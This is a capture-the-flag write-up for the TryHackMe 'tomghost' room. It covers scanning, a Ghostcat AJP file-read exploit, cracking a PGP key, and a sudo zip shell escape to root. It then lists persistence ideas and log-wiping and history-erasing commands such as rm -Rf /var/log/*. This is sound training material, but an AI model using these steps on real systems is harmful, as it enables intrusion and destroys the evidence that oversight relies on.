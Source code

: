```yaml
---
title: "THM:tomghost"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/tomghost"
categories: [ctf, thm]
tags: [ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,gpg2john,linpeas,privesc,cron]
---
```

# tomghost

URL: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost) &nbsp;<span class="badge rounded-pill bg-success" title="This is an Easy difficulty room."><i class="fa fa-bolt"></i>&nbsp;Easy</span>

## PHASE 1: Reconnaissance

Description of the room:

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found on `:8080`:

```python
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Interesting folders found on `:8009`:

This one is odd. In a browser, it says:

```
This page isn’t working
10.10.58.18 didn’t send any data.
ERR_EMPTY_RESPONSE
```

Which seems like there is a web server there, but it just didn't respond with anything. However, over `http` and `https`, `gobuster` couldn't connect to the web server:

```python
Error: error on running gobuster: unable to connect to http://10.10.58.18:8009/: Get "http://10.10.58.18:8009/": EOF
```

Also see: [gobuster-8080.log](gobuster-8080.log) / [gobuster-8009.log](gobuster-8009.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x -p 8080`

Not much of anything interesting info found on `:8080`:

```python
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/manager-howto.html: Tomcat documentation found. See: CWE-552
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/status: Default Tomcat Server Status interface found.
+ /host-manager/status: Default Tomcat Server Status interface found.
+ 8074 requests: 0 error(s) and 13 item(s) reported on remote host
```

Interesting info found on `:8009`:

Similar situation with `gobuster`, Nikto couldn't connect.

```python
- Nikto v2.5.0
---------------------------------------------------------------------------
---------------------------------------------------------------------------
+ 0 host(s) tested
```

Also see: [nikto-8080.log](nikto-8080.log) / [nikto-8009.log](nikto-8009.log)

## PHASE 3: Gaining Access

I consulted [this writeup](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23) which explains that "Ghostcat" (the name of the room) is the name of a vulnerability in Apache Jserv Protocol (AJP) that is running on port 8009.

### Unprivileged Access

By using the `ajpShooter.py` exploit from [here](https://github.com/00theway/Ghostcat-CNVD-2020-10487), we can run a command line like this:

```bash
python3 ajpShooter.py http://10.10.58.18:8080/demo 8009 /WEB-INF/web.xml read
```

That then shows you a plausible username:password combination. When you try that combination over SSH, you can get in with unprivileged access.

> ***Note:** Looking around there is a `merlin` folder until `/home/` with a readable folder structure. Not writable though. Also note that not much came up in linpeas either.*


### Privilege Escalation

This is somewhat tedious to put together. The kill-chain is:

1. **Download** the `credential.pgp` and `tryhackme.asc` to your local workstation (ex: run `python3 -m http.server` on the target, to serve those files; retrieve them with a browser)
1. **Convert** The `tryhackme.asc` file is a PGP private key. Run `gpg2john ./tryhackme.asc > ./tryhackme.asc.hash` to get it into John the Ripper format.
1. **Run John the Ripper** with the RockYou wordlist to crack the password for that private key (ex: run `john --wordlist=/opt/share/wordlist/rockyou.txt ./tryhackme.asc.hash`)
1. **Import that password into PGP** with: `gpg --import ./tryhackme.asc` - it will prompt you for a password.
1. **Decrypt the `credential.pgp` file** with `gpg --decrypt ./credential.pgp` - ir will prompt you for that same password you got from John the Ripper.
1. **SSH as `merlin`** Next, that credential that you just decrypted, is for `merlin`. So, SSH in now as `merlin`.
1. **Check `sudo`** As `merlin`, if we run `sudo -l` to see what we can do as sudo, we see that we can run `/usr/bin/zip`. This is notable because the `zip` program allows you to pass it a `--unzip-command "<command to run>"`. So, if we're running as `root` via `sudo` at that time, and if the `--unzip-command` opens a shell, we should get a root shell.

Putting that all together, we can finally run something like this, logged in as `merlin`:

```bash
sudo zip archive ./user.txt -T --unzip-command="sh -c /bin/bash"
```

We are now running as root and can get our final flag from the `/root/` folder.

## PHASE 4: Maintaining Access

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

- Add SSH key to `/root/.ssh/authorized_keys`
- Create a privileged account that wouldn’t draw attention (ex: `operations`) or an unprivileged account and give it `sudo` access via group or directly in the `/etc/sudoers` file.
- Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/merlin/.bash_history`
>  
> `cat /dev/null > /home/skyfrick/.bash_history`

## Summary

Completed: [2023-07-22 21:25:01]